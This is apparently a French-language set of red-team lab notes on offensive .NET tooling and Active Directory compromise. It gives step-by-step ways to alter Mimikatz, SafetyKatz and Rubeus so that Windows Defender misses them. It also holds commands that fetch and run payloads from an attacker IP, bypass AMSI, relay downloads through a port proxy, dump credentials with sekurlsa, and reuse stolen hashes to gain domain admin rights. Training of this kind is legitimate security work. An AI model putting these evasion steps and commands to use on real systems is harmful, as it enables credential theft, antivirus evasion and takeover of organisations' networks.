




# Offensive .NET

**Dépôt regroupant des outils populaires développés en C# pour le Red Team :**

[SharpCollection on GitHub](https://github.com/Flangvik/SharpCollection)

[Mimikatz on GitHub](https://github.com/gentilkiwi/mimikatz)


## Techniques - Contournement de l'antivirus (AV Bypass)

> Nous allons principalement nous intéresser au contournement des détections par signature de Windows Defender.

Pour cela, différentes techniques peuvent être utilisées, notamment l'obfuscation et la manipulation de chaînes de caractères.

Nous pouvons utiliser DefenderCheck :

[DefenderCheck on GitHub](https://github.com/matterpreter/DefenderCheck)

> Cet outil permet d'identifier les portions de code et les chaînes d'un binaire susceptibles d'être signalées par Windows Defender.

Ces informations permettent d'identifier les éléments à l'origine d'une détection et d'étudier les modifications apportées au code source.


### SharpKatz

Vérifier les signatures détectées dans SharpKatz.exe à l'aide de DefenderCheck :
```powershell
DefenderCheck.exe <Path to Sharpkatz binary>
```

- Ouvrir le projet dans Visual Studio.
- Appuyer sur **CTRL + H**.
- Rechercher et remplacer la chaîne "Credentials" par "Credents". Une autre chaîne peut être utilisée en remplacement. (Vérifier que cette chaîne n'est pas déjà présente dans le code.)
- Sélectionner **Entire Solution** dans le champ de portée.
- Cliquer sur le bouton **Replace All**.
- Compiler le projet, puis vérifier à nouveau le binaire avec *DefenderCheck*.
- Répéter les étapes précédentes si une détection persiste.

### Safetykatz

Pour SafetyKatz, les étapes suivantes ont été utilisées :
- Télécharger la dernière version de Mimikatz ainsi que **Out-CompressedDll.ps1**.

Exécuter le script PowerShell Out-CompressedDll.ps1 sur le binaire Mimikatz et enregistrer le résultat dans un fichier :
```powershell
Out-CompressedDll <Path to mimikatz.exe> > 	outputfilename.txt
```	

[Out-CompressedDll.ps1 in PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)


- Copier la valeur de la variable **$EncodedCompressedFile** depuis le fichier de sortie et remplacer la valeur de la variable **compressedMimikatzString** dans le fichier **Constants.cs** de SafetyKatz.

- Copier la taille en octets depuis le fichier de sortie et la remplacer dans le fichier **Program.cs**, aux lignes 111 et 116.
- Compiler le projet et vérifier à nouveau le binaire avec *DefenderCheck*.

### BetterSafetyKatz

Pour BetterSafetyKatz, les étapes suivantes ont été utilisées :
- Télécharger la dernière version du fichier "mimikatz_trunk.zip".
- Convertir le fichier en valeur Base64.




Modifier le fichier **Program.cs**.

– Ajouter une nouvelle variable contenant la valeur Base64 du fichier **mimikatz_trunk.zip**.
– Commenter le code qui télécharge ou accepte le fichier Mimikatz en argument.
– Convertir la chaîne Base64 en octets et la transmettre à la variable **zipStream**.




### Rubeus

Pour Rubeus.exe, **ConfuserEx** a été utilisé afin d'obfusquer le binaire.

[ConfuserEx on GitHub](https://github.com/mkaring/ConfuserEx)


Lancer ConfuserEx :
- Dans l'onglet **Project**, sélectionner le répertoire de base contenant le binaire.
- Dans l'onglet **Project**, sélectionner le fichier binaire à obfusquer.
- Dans l'onglet **Settings**, ajouter les règles.
- Dans l'onglet **Settings**, modifier la règle et sélectionner le préréglage **Normal**.
- Dans l'onglet **Protect**, cliquer sur le bouton **Protect**.

> Le nouveau binaire obfusqué se trouve dans le dossier Confused, sous le répertoire de base.




- Après l'obfuscation du binaire avec ConfuserEx, une nouvelle analyse avec DefenderCheck permet de constater la détection du GUID.
- Générer et modifier le GUID, compiler à nouveau Rubeus, puis relancer ConfuserEx sur le binaire Rubeus.exe.




## Payload Delivery     


NetLoader peut être utilisé pour charger des payloads binaires.

[NetLoader on GitHub](https://github.com/Flangvik/NetLoader)


Il peut charger un binaire depuis un chemin local ou une URL et modifier AMSI et ETW pendant son exécution :
```powershell
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

AssemblyLoad.exe permet également de charger NetLoader en mémoire depuis une URL. NetLoader charge ensuite un binaire depuis un chemin local ou une URL :
```powershell
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

### [1] - Obtention des privilèges Domain Admin via dcorp-ci
```powershell
iex (iwr http://<ip>/sbloggingbypass.txt -UseBasicParsing)
# bypass ASMI manually
iex ((New-Object Net.WebClient).DownloadString('http://<ip>/PowerView.ps1'))
FInd-DomainUserLocation
winrs -r:<machine> <command> //example winrs -r:dcorp-mgmt hostname;whoami
iwr http://<ip>/Loader.exe -OutfFile C:\Users\Public\Loader.exe
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```


> [NOTE] Windows Defender bloque tous les binaires et exécutables téléchargés depuis des sources distantes.
So, we will configure a portforward to request payload from local loopback. 

> Même si Defender surveille cette activité, le payload n'est pas téléchargé directement depuis une source distante et n'est donc pas bloqué.

```powershell
$null | winrs -r:dcorp-mgmt “netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<attacker IP>”
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

Créer une nouvelle session PowerShell avec un niveau d'intégrité élevé :
```powershell
Rubeus.exe asktgt /user:svcadmin /aes256:<dc hash> /opsec /creanetonly:C:\windows\System32\cmd.exe /show /ptt
```


### [2] - Obtention des privilèges Domain Admin via des droits administrateur locaux indirects

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose

Enter-PSSession <the machine we have local admin access>
```

> Il faut ici contourner AMSI, mais le shell utilise le mode **ConstrainedLanguage**.

```powershell
$ExecutionContext.SessionState.LanguageMode
```

> Il faut rechercher quelle stratégie nous bloque : **AppLocker**, **WDigest**.
 
 ```powershell  
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
ou
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 # "AppLocker = Software Restrict Policy Version 2"
```

Copions MimiEx sur la machine cible.

Depuis la machine d'attaque :
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

> Se reconnecter à la machine avec une PSSession et exécuter MimiEx.ps1.


Depuis la machine d'attaque :
```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe “sekurlsa::opassth” /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:<hash> /run:cmd.exe" “exit”
```

- Cette commande ouvre un shell avec le hash obtenu à l'aide de **MimiEx**.
- Identifier d'abord les machines sur lesquelles cet utilisateur dispose de droits administrateur locaux.

> [EXTRA] **Session: Service From 0** signifie qu'un service utilise ce compte comme compte de service.
> Il peut donc exister un mot de passe en clair mis en cache dans les résultats de Mimikatz.


Dans le nouveau shell :
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

> À ce stade, il est possible d'accéder aux identifiants et de les extraire comme dans le scénario précédent.
> Ouvrir une redirection de port et effectuer l'extraction via l'interface loopback                                          ]

